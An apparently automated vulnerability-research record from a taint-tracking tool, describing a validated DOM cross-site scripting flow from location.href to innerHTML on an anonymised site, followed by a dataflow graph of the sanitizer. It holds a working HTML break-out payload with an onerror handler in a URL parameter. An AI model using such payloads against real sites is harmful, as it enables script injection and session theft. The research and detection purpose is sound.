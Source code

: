 // Finding: 6aec2c48-e41d-4911-be13-2fd0eb466f5d
// Finding.url: https://www.example204.com/search.html?interestArea=P</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('7683ff54fafd418688cf65d7af455e6e')><!--/*&sort=recency
// Finding.parentloc: https://www.example204.com/search.html?interestArea=P</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('7683ff54fafd418688cf65d7af455e6e')><!--/*&sort=recency
// Finding.domain: www.example204.com
// Finding.base_domain: example204.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 14
// Sanitizer.name: y
// Sanitizer.location: https://www.example204.com/etc/clientlibs/dot-org/assets.min.js - y:616:56
// Finding.begin: 124
// Finding.end: 131
// Finding.original_uuid: cbee0cc1-6e31-48a2-99da-7ad70960cf09
// Finding.TwentyFiveMillionFlowsId: -1899331355
// Finding.script: https://www.example204.com/etc/clientlibs/dot-org/assets.min.js
// Finding.line: 819
// Exploit.uuid: 7683ff54-fafd-4186-88cf-65d7af455e6e
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: text
// Exploit.content: P
// Exploit.quote_type: None
// Exploit.tag: None
// Exploit.break_out: P</iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: P</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 47
// Exploit.end_taint_url: 52
// Exploit.replace_begin_url: 47
// Exploit.replace_end_url: 52
// Exploit.replace_begin_param: 133
// Exploit.replace_end_param: 138
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: true
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -772891896
// DepGraph.sanitizer_hash: -1019648210
// Removed LR concats 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="substr"];
n2 [shape=box, label="Var: x"];
n3 [shape=box, label="Lit: 34"];
n4 [shape=ellipse, label="preg_replace"];
n5 [shape=box, label="RegExp: /&+/"];
n6 [shape=box, label="Lit: &"];
n7 [shape=box, label="Var: x"];
n8 [shape=ellipse, label="preg_replace"];
n9 [shape=box, label="RegExp: /^\?*&*|&+$/"];
n10 [shape=box, label="Lit: "];
n11 [shape=box, label="Var: x"];
n12 [shape=ellipse, label="split"];
n13 [shape=box, label="Lit: &"];
n14 [shape=box, label="Var: x"];
n15 [shape=ellipse, label="split"];
n16 [shape=box, label="Lit: ="];
n17 [shape=box, label="Var: x"];
n18 [shape=ellipse, label="preg_replace"];
n19 [shape=box, label="RegExp: /\+/"];
n20 [shape=box, label="Lit: %20"];
n21 [shape=box, label="Var: x"];
n22 [shape=ellipse, label="decodeURIComponent"];
n23 [shape=box, label="Var: x"];
n24 [shape=ellipse, label="encodeURIComponent"];
n25 [shape=box, label="Var: x"];
n26 [shape=ellipse, label="preg_replace"];
n27 [shape=box, label="RegExp: /[!]/"];
n28 [shape=box, label="Lit: %21"];
n29 [shape=box, label="Var: x"];
n30 [shape=ellipse, label="preg_replace"];
n31 [shape=box, label="RegExp: /[*]/"];
n32 [shape=box, label="Lit: *"];
n33 [shape=box, label="Var: x"];
n34 [shape=ellipse, label="preg_replace"];
n35 [shape=box, label="RegExp: /[']/"];
n36 [shape=box, label="Lit: %27"];
n37 [shape=box, label="Var: x"];
n38 [shape=ellipse, label="preg_replace"];
n39 [shape=box, label="RegExp: /[)]/"];
n40 [shape=box, label="Lit: %29"];
n41 [shape=box, label="Var: x"];
n42 [shape=ellipse, label="preg_replace"];
n43 [shape=box, label="RegExp: /[(]/"];
n44 [shape=box, label="Lit: %28"];
n45 [shape=box, label="Var: x"];
n46 [shape=ellipse, label="preg_replace"];
n47 [shape=box, label="RegExp: /\*/"];
n48 [shape=box, label="Lit: %2A"];
n49 [shape=box, label="Var: x"];
n50 [shape=ellipse, label="preg_replace"];
n51 [shape=box, label="RegExp: /%20/"];
n52 [shape=box, label="Lit: +"];
n53 [shape=box, label="Var: x"];
n54 [shape=ellipse, label="."];
n55 [shape=box, label="Lit: ="];
n56 [shape=ellipse, label="."];
n57 [shape=box, label="Lit: sort"];
n58 [shape=ellipse, label="."];
n59 [shape=box, label="Lit: &"];
n60 [shape=ellipse, label="substr"];
n61 [shape=box, label="Var: x"];
n62 [shape=box, label="Lit: 1"];
n63 [shape=ellipse, label="preg_replace"];
n64 [shape=box, label="RegExp: /&+/"];
n65 [shape=box, label="Lit: &"];
n66 [shape=box, label="Var: x"];
n67 [shape=ellipse, label="preg_replace"];
n68 [shape=box, label="RegExp: /^\?*&*|&+$/"];
n69 [shape=box, label="Lit: "];
n70 [shape=box, label="Var: x"];
n71 [shape=ellipse, label="split"];
n72 [shape=box, label="Lit: ="];
n73 [shape=box, label="Var: x"];
n74 [shape=ellipse, label="preg_replace"];
n75 [shape=box, label="RegExp: /\+/"];
n76 [shape=box, label="Lit: %20"];
n77 [shape=box, label="Var: x"];
n78 [shape=ellipse, label="decodeURIComponent"];
n79 [shape=box, label="Var: x"];
n80 [shape=ellipse, label="encodeURIComponent"];
n81 [shape=box, label="Var: x"];
n82 [shape=ellipse, label="preg_replace"];
n83 [shape=box, label="RegExp: /[!]/"];
n84 [shape=box, label="Lit: %21"];
n85 [shape=box, label="Var: x"];
n86 [shape=ellipse, label="preg_replace"];
n87 [shape=box, label="RegExp: /[*]/"];
n88 [shape=box, label="Lit: *"];
n89 [shape=box, label="Var: x"];
n90 [shape=ellipse, label="preg_replace"];
n91 [shape=box, label="RegExp: /[']/"];
n92 [shape=box, label="Lit: %27"];
n93 [shape=box, label="Var: x"];
n94 [shape=ellipse, label="preg_replace"];
n95 [shape=box, label="RegExp: /[)]/"];
n96 [shape=box, label="Lit: %29"];
n97 [shape=box, label="Var: x"];
n98 [shape=ellipse, label="preg_replace"];
n99 [shape=box, label="RegExp: /[(]/"];
n100 [shape=box, label="Lit: %28"];
n101 [shape=box, label="Var: x"];
n102 [shape=ellipse, label="preg_replace"];
n103 [shape=box, label="RegExp: /\*/"];
n104 [shape=box, label="Lit: %2A"];
n105 [shape=box, label="Var: x"];
n106 [shape=box, label="Var: x"];
n107 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n1 -> n3;
n7 -> n1;
n4 -> n5;
n4 -> n6;
n4 -> n7;
n11 -> n4;
n8 -> n9;
n8 -> n10;
n8 -> n11;
n14 -> n8;
n12 -> n13;
n12 -> n14;
n17 -> n12;
n15 -> n16;
n15 -> n17;
n21 -> n15;
n18 -> n19;
n18 -> n20;
n18 -> n21;
n23 -> n18;
n22 -> n23;
n25 -> n22;
n24 -> n25;
n29 -> n24;
n26 -> n27;
n26 -> n28;
n26 -> n29;
n33 -> n26;
n30 -> n31;
n30 -> n32;
n30 -> n33;
n37 -> n30;
n34 -> n35;
n34 -> n36;
n34 -> n37;
n41 -> n34;
n38 -> n39;
n38 -> n40;
n38 -> n41;
n45 -> n38;
n42 -> n43;
n42 -> n44;
n42 -> n45;
n49 -> n42;
n46 -> n47;
n46 -> n48;
n46 -> n49;
n53 -> n46;
n50 -> n51;
n50 -> n52;
n50 -> n53;
n54 -> n55;
n54 -> n50;
n56 -> n57;
n56 -> n54;
n58 -> n59;
n58 -> n56;
n61 -> n58;
n60 -> n61;
n60 -> n62;
n66 -> n60;
n63 -> n64;
n63 -> n65;
n63 -> n66;
n70 -> n63;
n67 -> n68;
n67 -> n69;
n67 -> n70;
n73 -> n67;
n71 -> n72;
n71 -> n73;
n77 -> n71;
n74 -> n75;
n74 -> n76;
n74 -> n77;
n79 -> n74;
n78 -> n79;
n81 -> n78;
n80 -> n81;
n85 -> n80;
n82 -> n83;
n82 -> n84;
n82 -> n85;
n89 -> n82;
n86 -> n87;
n86 -> n88;
n86 -> n89;
n93 -> n86;
n90 -> n91;
n90 -> n92;
n90 -> n93;
n97 -> n90;
n94 -> n95;
n94 -> n96;
n94 -> n97;
n101 -> n94;
n98 -> n99;
n98 -> n100;
n98 -> n101;
n105 -> n98;
n102 -> n103;
n102 -> n104;
n102 -> n105;
n106 -> n102;
n107 -> n106;
}